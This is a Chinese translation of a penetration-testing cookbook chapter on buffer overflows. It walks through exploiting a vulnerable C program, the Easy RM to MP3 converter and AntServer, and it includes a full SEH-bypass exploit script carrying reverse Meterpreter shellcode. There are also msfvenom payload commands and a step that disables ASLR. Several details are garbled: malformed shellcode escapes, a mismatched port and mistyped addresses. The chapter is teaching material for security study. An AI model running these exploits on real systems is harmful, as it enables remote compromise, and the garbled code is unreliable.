# 缓冲区溢出

在本章中，我们将介绍以下配方：

*   利用基于堆栈的缓冲区溢出
*   利用真实软件中的缓冲区溢出
*   SEH 旁路
*   利用鸡蛋猎人
*   ASLR 和 NX 旁路概述

# 介绍

在软件程序中，当程序在向缓冲区写入数据时超出分配的缓冲区大小并开始将数据覆盖到相邻的内存位置时，会发生缓冲区溢出。

缓冲区可以看作是内存中的一个临时区域，分配给一个程序，以便在需要时存储和检索数据。

早在很久以前，缓冲区溢出就被利用了。

当利用缓冲区溢出时，我们主要关注的是覆盖一些控制信息，以便程序的控制流发生变化，这将允许我们的代码控制程序。

下面是一个图表，它将为我们提供缓冲区中发生溢出的基本概念：



从前面的图表中，我们可以假设这是一个程序的样子。因为它是一个堆栈，所以它从底部开始向堆栈顶部移动。

看到上图，我们还注意到程序有一个固定的缓冲区来存储 16 个字母/字节的数据。

我们首先输入 8 个字符（*1 个字符=1 个字节*）；在图的右侧，我们可以看到它们已写入程序内存的缓冲区中。

让我们看看在程序中写入 20 个字符时会发生什么：



资料来源：http://www.cbi.umn.edu/

我们可以看到，数据被正确写入最多 16 个字符，但最后 4 个字符现在已超出缓冲区，并覆盖了存储在程序的**返回地址**中的值。这就是典型的缓冲区溢出发生的地方。

让我们看一个活生生的例子；我们将获取一个示例代码：

```
#include <stdio.h> 
#include <string.h> 
#include <stdlib.h> 
int main(int argc, char *argv[]) 
{ 
    char buffer[5]; 
    if (argc < 2) 
        { 
            printf("strcpy() NOT executed....\n"); 
            printf("Syntax: %s <characters>\n", argv[0]); 
            exit(0); 
        } 
    strcpy(buffer, argv[1]); 
    printf("buffer content= %s\n", buffer); 

    // you may want to try strcpy_s() 
    printf("strcpy() executed...\n"); 
    return 0; 
} 
```

前面的程序只是在运行时获取一个输入，并将其复制到一个名为`buffer`的变量中。我们可以看到变量缓冲区的大小被设置为`5`。

我们现在使用以下命令编译它：

```
gcc program.c -o program
```

我们需要小心，因为`gcc`在默认情况下具有内置的安全功能，可以防止缓冲区溢出。

我们使用以下命令运行程序：

```
./program 1234  
```

我们看到它存储了数据，我们得到了输出。

现在让我们运行以下命令：

```
./program 12345   
```

我们将看到程序作为分段错误退出。这是`gcc`已启用的安全功能。

我们将在下一个食谱中了解更多关于回信地址的信息。但是，用我们自己的代码覆盖返回地址会导致程序的行为与其通常的执行不同，并有助于我们利用该漏洞。

模糊化是发现程序中缓冲区溢出的最简单方法。Kali 中有各种各样的模糊器，或者我们可以编写自定义脚本来创建自己的模糊器，具体取决于我们拥有的程序类型。

一旦模糊化完成并且崩溃发生，我们的下一步就是调试程序，以找到程序崩溃的确切部分，以及我们如何利用它。

同样，在线有多个调试器可用。我个人最喜欢的 Windows 是 Immunity Debugger（Immunity Inc.）。Kali 还附带了一个内置的调试器 GDB。它是一个命令行调试器。

在我们深入讨论更激动人心的话题之前，请注意程序中通常会发生两种类型的溢出。

缓冲区溢出主要有两种类型：

*   基于堆栈的溢出
*   基于堆的溢出

我们将在本章后面部分更详细地介绍这些内容。现在，让我们澄清一些基础知识，这将有助于我们利用溢出漏洞。

# 利用基于堆栈的缓冲区溢出

现在我们的基本知识已经清楚了，让我们继续研究利用基于堆栈的缓冲区溢出。

# 怎么做。。。

以下步骤演示了基于堆栈的缓冲区溢出：

1.  让我们看看另一个简单的 C 程序：

```
        #include<stdio.h> 
        #include<string.h> 
        void main(int argc, char *argv[]) 
        { 
            char buf[120]; 
            strcpy(buf, argv[1]); 
            printf(buf); 
        }  
```

此程序使用易受攻击的方法`strcyp()`。我们将程序保存到一个文件中。

2.  然后我们使用`fno-stack-protector`和`execstack`使用`gcc`编译程序：

```
 gcc -ggdb name.c -o name -fno-stack-protector -z execstack
```

3.  接下来，我们使用以下命令关闭地址空间随机化：

```
 echo 0 > /proc/sys/kernel/randomize_va_space
```

4.  现在我们使用以下命令在`gdb`中打开我们的程序：

```
 gdb ./name
```

以下屏幕截图显示了前面命令的输出：



5.  接下来，我们使用以下命令使用 Python 提供输入：

```
 r $(python -c 'print "A"*124')
```

以下屏幕截图显示了前面命令的输出：


6.  我们可以看到程序崩溃了，显示错误`0x41414141`。这意味着我们输入的字符`A`已经覆盖了 EIP。

7.  我们通过键入`i r`进行确认：


8.  这表明 EIP 寄存器的值已成功覆盖。
9.  接下来，我们找到覆盖 EIP 的确切字节。我们可以在程序中输入不同的字符，然后检查其中哪一个覆盖了 EIP。
10.  所以我们再次运行程序，这次使用不同的字符：

```
 r $(python -c 'print "A"*90+"B"*9+"C"*25')
```

以下屏幕截图显示了前面命令的输出：



11.  这一次，我们看到 EIP 的值为`CCCC`。这意味着我们需要的字节在我们提供的最后 25 个字符中的某个位置。

12.  同样，我们尝试 124 个字符的不同组合，直到找到覆盖 EIP 的确切 4 个字符的位置：


13.  现在，由于我们已经找到了 EIP 的确切位置，为了成功利用它，我们需要用存储外壳代码的内存地址覆盖这 4 个字节。我们在内存中有大约 100 个字节，`A`当前存储在那里，这对于我们的外壳代码来说已经足够了。因此，我们需要在调试器中添加断点，它将在跳到下一条指令之前停止。
14.  我们使用`list 8`命令列出程序：



15.  我们在调用函数的行中添加断点，然后使用`b <linenumber>`调用函数。

16.  现在我们再次运行程序，它将在断点处停止：



17.  我们按`c`继续。
18.  现在让我们看看`esp`（堆栈指针）寄存器：

```
 x/16x $esp
```

以下屏幕截图显示了前面命令的输出：



19.  这将向我们显示`esp`寄存器后的 16 个字节，在左侧列中，我们将看到与存储的数据对应的内存地址。

20.  这里，我们看到数据从地址`0xbffff190`开始。我们注意到下一个内存地址`0xbfff1a0`。这是我们将在 EIP 中写入的地址。当程序覆盖 EIP 时，它将使其跳转到此地址，我们的外壳代码将存储在此地址：


21.  让我们尝试利用溢出打开一个 shell。我们可以在 Google 上找到将为我们执行 shell 的外壳代码：


22.  我们有 100 个字节，外壳代码是 24 个字节。我们可以利用这一点。
23.  现在，我们只需将`A`s 替换为`76`无操作汇编指令（`0x90`，其余 24 字节替换为外壳代码，`B`s 替换为我们希望 EIP 指向的内存地址，`C`s 再次替换为无操作代码。这应该是这样的：

```
 "\x90"*76+"\x6a\x0bx58x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\
        x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80"
        +"\xa0\xff\xf1\xbf"+"\x90"*20
```

24.  让我们重新运行程序并将其作为输入传递：

```
 r $(python -c print' "\x90"*76+"\x6a\x0bx58x31\xf6\x56\x68\
        x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\
        xcd\x80"+"\xa0\xff\xf1\xbf"+"\x90"*20')
```

25.  我们键入`c`从断点继续，一旦执行完成，我们将执行 shell。

# 利用真实软件中的缓冲区溢出

您已经在前面学习了利用漏洞的基本知识。现在，让我们在一些很久以前就已经被利用的软件上尝试这些方法，并且公开利用这些方法。在本食谱中，您将了解旧软件的公开可用漏洞利用，并为其创建自己的漏洞利用版本。

在开始之前，我们需要一个旧版本的 Windows 操作系统（最好是 Windows XP）和一个用于 Windows 的调试器。我使用了免疫调试器和一个已知存在缓冲区溢出漏洞的旧软件。我们将使用*简易 RM-to-MP3 转换器*。此版本在播放大型 M3U 文件时存在缓冲区溢出漏洞。

# 准备

免疫调试器的免费版本可在[下载 https://www.immunityinc.com/products/debugger/](https://www.immunityinc.com/products/debugger/) 。

# 怎么做。。。

按照给定的步骤了解它：

1.  接下来，我们下载并在机器上安装 MP3 转换器。
2.  此转换器在播放 M3U 文件时存在漏洞。当打开一个大文件进行转换时，软件崩溃。
3.  让我们创建一个文件，其中写入了大约 30000 个`A`，并将其保存为`<filename>.m3u`：



4.  然后将文件拖放到播放器中，我们将看到它崩溃：



5.  现在我们需要找到导致崩溃的确切字节数。

6.  在一个文件中手动键入如此多的`A`将花费大量时间，因此我们编写了一个简单的 Python 程序来完成这项工作：

```
        import io
        a="A"*30000
        file =open("crash.m3u","w")
        file.write(a)
        file.close()
```

7.  现在我们使用字节来查找崩溃的确切值。
8.  在我们的例子中，结果是 26105，因为程序没有在 26104 字节时崩溃：



9.  现在，我们运行调试器并通过导航到文件| attach:



10.  然后，我们从正在运行的程序列表中选择进程名称：


11.  连接后，我们将在程序中打开 M3U 文件。我们将在调试器的状态栏中看到一条警告。我们只需按*F9*键或点击顶部菜单栏上的播放按钮，点击继续：


12.  我们将看到 EIP 被`A`s 覆盖，程序崩溃：


13.  现在我们需要找到导致崩溃的确切 4 个字节。我们将使用 Kali 的脚本*模式创建*。它为我们想要的字节数生成一个唯一的模式。

14.  我们可以使用 locate 命令找到脚本的路径：

```
 locate pattern_create
```

以下屏幕截图显示了前面命令的输出：


15.  现在我们有了路径，运行脚本并传递字节数：

```
 ruby /path/to/script/pattern_create.rb 5000
```

16.  我们使用 5000，因为我们已经知道它不会在 25000 时崩溃，所以我们只为接下来的 5000 字节创建一个模式。
17.  我们有自己独特的模式。我们现在将其与 25000`A`s 一起粘贴到我们的 M3U 文件中。
18.  我们打开应用程序并将进程附加到调试器：


19.  然后我们将 M3U 文件拖放到程序中。
20.  它崩溃了，我们的 EIP 被 42386b42 覆盖了。
21.  Metasploit 还有一个很好的脚本来查找偏移的位置：

```
 ruby /path/to/script/pattern_offset.rb 5000
```

22.  现在我们在`1104`有了偏移匹配；将其添加到 25000`A`之后，我们现在知道 EIP 在 26104 字节后被覆盖：


23.  接下来，我们需要找到一种可靠的跳转到外壳代码的方法。我们只需在 EIP 后将额外的随机字符写入堆栈，确保我们编写的外壳代码将正确写入内存。
24.  我们运行程序，将其附加到调试器，然后让它崩溃。
25.  我们将看到 EIP 已成功覆盖。在右下角的窗口中，我们右键单击并选择 Go to ESP:


26.  这里，我们注意到 ESP 实际上从第 5 个字节开始。为了确保外壳代码正确执行，我们现在需要确保外壳代码在 4 个字节之后启动。我们可以插入四个 NOP 来解决此问题：



27.  因为我们控制了 EIP，所以有多种方法来执行外壳代码，这里我们将介绍其中的两种。第一个很简单：我们在代码中找到`jmp esp`指令并用它覆盖地址。为此，我们右键单击并导航以搜索所有模块中的|所有命令：


28.  我们键入`jmp esp`说明：



29.  在结果框中，我们看到了我们的指令，并复制了我们的攻击地址。


30.  让我们现在写一个漏洞。基本概念为`junk bytes + address of jump ESP + NOP bytes + Shellcode`：


31.  我们可以生成计算器的外壳代码：

```
 msfvenom windows/exec CMD=calc.exe R | msfencode -b
        '\x00\x0A\x0D' -t c
```

32.  现在我们运行这个漏洞攻击，一旦程序崩溃，我们就会看到计算器打开！



33.  让我们试试另一种方法；假设没有`jmp`ESP 可供我们使用。在这种情况下，我们可以使用`push esp`然后使用`ret`指令，它将指针移动到堆栈顶部，然后调用`esp`。
34.  我们遵循相同的步骤，直到*步骤 25*。然后，我们右键单击并转到搜索所有模块中的|所有序列。
35.  在这里，我们输入`push esp ret`：


36.  在结果中，我们看到地址中有序列：`018F1D88`。

37.  现在，我们只需用此代码替换攻击代码中的 EIP 地址，然后运行攻击，我们应该打开一个计算器：


# SEH 旁路

在开始之前，我们需要了解 SEH 是什么。**SEH**代表**结构化异常处理**。我们可能经常看到程序出现错误，表示*软件遇到问题，需要关闭*。这基本上意味着它是 Windows 的默认异常处理程序。

SEH 处理程序可以被视为当程序中出现异常时按顺序执行的`try`和`catch`语句块。这就是典型的 SEH 连锁店的样子：


资料来源：https://www.corelan.be/wp-content/uploads/2009/07/image_thumb45.png

当异常发生时，SEH 链将根据其类型来救援并处理异常。

因此，当出现非法指令时，应用程序有机会处理异常。如果应用程序中没有定义异常处理程序，我们将看到 Windows 显示的错误：类似于向 Microsoft 发送报告。

为了成功利用 SEH 处理程序的程序，我们首先尝试用缓冲区填充堆栈，然后尝试覆盖存储第一个 SEH 记录链的内存地址。然而，这还不够；我们还需要生成一个错误，它将实际触发 SEH 处理程序，然后我们将能够完全控制程序的执行流。一个简单的方法是一直填充堆栈，这将创建一个要处理的异常，因为我们已经控制了第一条 SEH 记录，所以我们将能够利用它

# 怎么做。。。

在本食谱中，您将了解如何做到这一点：

1.  让我们下载一个名为 AntServer 的程序。它有很多可用的公共漏洞，我们将尝试为它构建自己的漏洞。
2.  我们将在上一个配方中使用的 Windows XP SP2 机器上安装它。
3.  AntServer 存在一个漏洞，可通过向在端口`6600`上运行的 AntServer 发送长 USV 请求来触发该漏洞：


4.  让我们通过打开软件并导航到服务器来运行 AntServer |运行服务控制…：



5.  现在，让我们编写一个简单的 Python 脚本，它将在端口`6600`上向该服务器发送一个大请求：

```
        #!/usr/bin/pythonimport socket
        import socket
        address="192.168.110.6"
        port=6660    
        buffer = "USV " + "\x41" * 2500 + "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((address, port))
        sock.send(buffer)
        sock.close()
```

6.  回到 Windows 机器，让我们启动调试器并将进程`AntServer.exe`附加到它。然后点击`Run`。

7.  程序运行后，我们从 Kali 运行 Python 脚本，在调试器中，我们将看到一个违规错误。但是，我们的 EIP 尚未被覆盖：


8.  在调试器的文件菜单中，我们进入查看| SEH chain。在这里，我们将看到地址已被`AAAA`覆盖。现在我们按*Shift*+*F9*将异常传递给程序。我们将看到 EIP 已被覆盖，我们得到一个错误：


9.  我们还将注意到，其他寄存器值现在已变为零。这种寄存器归零是在 Windows XP SP1 和更高版本中引入的，目的是使 SEH 攻击更加困难。

10.  我们使用的是 WindowsXPSP2。它有一个名为**SAFESEH**的功能。当在模块中启用此选项时，只能使用已注册 SEH 处理程序列表中列出的内存地址，这意味着如果我们使用列表中未列出的任何地址，则从使用`/SAFESEH ON`编译的模块中，Windows 异常处理程序将不使用 SEH 地址，并且 SEH 覆盖将失败。
11.  有几种方法可以绕过这个问题，这是其中之一：使用未使用`/SAFESEH ON`或`IMAGE_DLLCHARACTERISTICS_NO_SEH`选项编译的模块的覆盖地址。
12.  为了找到这一点，我们将使用名为**mona**的插件进行免疫调试器。可从[下载 https://github.com/corelan/mona](https://github.com/corelan/mona) ：



13.  我们只需将 Python 文件复制到应用程序的`PyCommands`文件夹中。

14.  让我们继续开发。我们已经看到 EIP 已经被覆盖。现在，我们将尝试使用 Kali Linux 中的模式创建脚本查找崩溃发生的确切字节：

```
 ruby /path/to/script/pattern_create.rb -l 2500
```

以下屏幕截图显示了前面命令的输出：


15.  代码应该是这样的：


16.  我们现在运行这个文件，在调试器中，我们将看到访问冲突错误。我们现在来看| SEH 连锁店。
17.  我们将看到 SEH 已被字节覆盖。我们复制`42326742`值，并使用 Kali 中的`pattern_offset`脚本找到其位置：


```
 ruby /path/to/script/pattern_offset.rb -q 423267412
```

以下屏幕截图显示了前面命令的输出：


18.  我们将看到偏移量是`966`字节，在该字节处处理程序被覆盖。
19.  现在让我们稍微修改一下我们的漏洞，看看会发生什么。我们有`966`字节；我们将使用`962`字节的 As 和 4 字节的断点，4 字节的 Bs 和剩余字节的 Cs 来查看发生了什么：

```
        #!/usr/bin/python
        import socket address="192.168.110.12"
        port=6660 buffer = "USV "
        buffer+= "A" * 962
        buffer+= "\xcc\xcc\xcc\xcc"
        buffer+= "BBBB"
        buffer+= "C" * (2504 - len(buffer))
        buffer+= "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((target_address,target_port)) 
        sock.send(buffer)
        sock.close()
```

20.  我们运行此程序并查看 SEH 链。在这里，我们将注意到一件有趣的事情：我们添加的前 4 个断点实际上已经覆盖了内存地址，接下来的 4 个断点已经覆盖到我们的 SEH 处理程序中：


这是因为 SEH 是一个指针，当发生异常时，它指向存储代码的内存地址。

21.  让我们将异常传递给程序，我们将看到 EIP 已被覆盖，但当我们查看内存时，我们将看到我们的 Cs 已在内存中的 Bs 之后写入大约 6 个字节。我们可以使用`POP RET`后跟短`JUMP`代码跳转到外壳代码。
22.  我们在调试器的控制台中键入`!safeseh`命令：



23.  这将向我们显示未使用`SAFESEH/ON`编译的所有 DLL 的列表。在日志窗口中，我们将看到函数列表：


24.  让我们使用一个 DLL`vbajet32.dll`。我们的目标是在 DLL 中找到一个`POP POP RET`序列，可以用来绕过 SEH。

25.  我们在 Windows 计算机上找到我们的 DLL 并将其复制到 Kali。Kali 还有另一个很棒的工具`msfpescan`，可以用来在 DLL 中查找`POP POP RET`序列：

```
 /path/to/msfpescan -f vbajet32.dll -s
```

以下屏幕截图显示了前面命令的输出：


26.  这里有`.dll`中所有`POP POP RET`序列的地址。我们将使用第一个，`0x0f9a1f0b`。我们还需要一个短的`JUMP`代码，这将导致跳转到存储在内存中的外壳代码或 Cs。
27.  Short`JUMP`是`\xeb\x06`，其中`06`是我们需要跳转的字节数。我们仍然缺少 2 字节的 4 字节地址空间，我们可以使用 2 个 NOP。

28.  让我们创建一个外壳代码；因为我们是通过 HTTP 发送的，所以我们需要确保避免使用坏字符。我们将使用 msfvenom：

```
 msfvenom -p windows/meterpreter/reverse_tcp -f py
        -b "\x00\xff\x20\x25\x0a\x-d" -v buffer
```

以下屏幕截图显示了前面命令的输出：


29.  我们将把一切都放在开发中，如下所示：

```
        #!/usr/bin/python
        import socket
        target_address="192.168.110.12"
        target_port=6660
        buffer = "USV "
        buffer += "\x41" * 962 #offset
        # 6 Bytes SHORT jump to shellcode
        buffer += "\xeb\x06\x90\x90"
        # POP+POP+RET 0x0f9a196a
        buffer += "\x6a\x19\x9a\x0f"
        buffer += "\x90" * 16
        #Shellcode Reverse meterpreter.
        buffer += "\xdb\xde\xd9\x74\x24\xf4\xbf\xcf\x9f\xb1\x9a\x5e"
        buffer += "\x31\xc9\xb1\x54\x83\xee\xfc\x31\x7e\x14\x03\x7e"
        buffer += "\xdb\x7d\x44\x66\x0b\x03\xa7\x97\xcb\x64\x21\x72"
        buffer += "\xfa\xa4\x55\xf6\xac\x14\x1d\x5a\x40\xde\x73\x4f"
        buffer += "\xd3\x92\x5b\x60\x54\x18\xba\x4f\x65\x31\xfe\xce"
        buffer += "\xe5\x48\xd3\x30\xd4\x82\x26\x30\x11\xfe\xcb\x60"
        buffer += "\xca\x74\x79\x95\x7f\xc0\x42\x1e\x33\xc4\xc2\xc3"
        buffer += "\x83\xe7\xe3\x55\x98\xb1\x23\x57\x4d\xca\x6d\x4f"
        buffer += "\x92\xf7\x24\xe4\x60\x83\xb6\x2c\xb9\x6c\x14\x11"
        buffer += "\x76\x9f\x64\x55\xb0\x40\x13\xaf\xc3\xfd\x24\x74"
        buffer += "\xbe\xd9\xa1\x6f\x18\xa9\x12\x54\x99\x7e\xc4\x1f"
        buffer += "\x95\xcb\x82\x78\xb9\xca\x47\xf3\xc5\x47\x66\xd4"
        buffer += "\x4c\x13\x4d\xf0\x15\xc7\xec\xa1\xf3\xa6\x11\xb1"
        buffer += "\x5c\x16\xb4\xb9\x70\x43\xc5\xe3\x1c\xa0\xe4\x1b"
        buffer += "\xdc\xae\x7f\x6f\xee\x71\xd4\xe7\x42\xf9\xf2\xf0"
        buffer += "\xa5\xd0\x43\x6e\x58\xdb\xb3\xa6\x9e\x8f\xe3\xd0"
        buffer += "\x37\xb0\x6f\x21\xb8\x65\x05\x24\x2e\x46\x72\x48"
        buffer += "\xa5\x2e\x81\x95\xa8\xf2\x0c\x73\x9a\x5a\x5f\x2c"
        buffer += "\x5a\x0b\x1f\x9c\x32\x41\x90\xc3\x22\x6a\x7a\x6c"
        buffer += "\xc8\x85\xd3\xc4\x64\x3f\x7e\x9e\x15\xc0\x54\xda"
        buffer += "\x15\x4a\x5d\x1a\xdb\xbb\x14\x08\x0b\xda\xd6\xd0"
        buffer += "\xcb\x77\xd7\xba\xcf\xd1\x80\x52\xcd\x04\xe6\xfc"
        buffer += "\x2e\x63\x74\xfa\xd0\xf2\x4d\x70\xe6\x60\xf2\xee"
        buffer += "\x06\x65\xf2\xee\x50\xef\xf2\x86\x04\x4b\xa1\xb3"
        buffer += "\x4b\x46\xd5\x6f\xd9\x69\x8c\xdc\x4a\x02\x32\x3a"
        buffer += "\xbc\x8d\xcd\x69\xbf\xca\x32\xef\x9d\x72\x5b\x0f"
        buffer += "\xa1\x82\x9b\x65\x21\xd3\xf3\x72\x0e\xdc\x33\x7a"
        buffer += "\x85\xb5\x5b\xf1\x4b\x77\xfd\x06\x46\xd9\xa3\x07"
        buffer += "\x64\xc2\xb2\x89\x8b\xf5\xba\x6b\xb0\x23\x83\x19"
        buffer += "\xf1\xf7\xb0\x12\x48\x55\x90\xb8\xb2\xc9\xe2\xe8"
        # NOP SLED
        buffer += "\x90" * (2504 - len(buffer))
        buffer += "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((target_address,target_port))
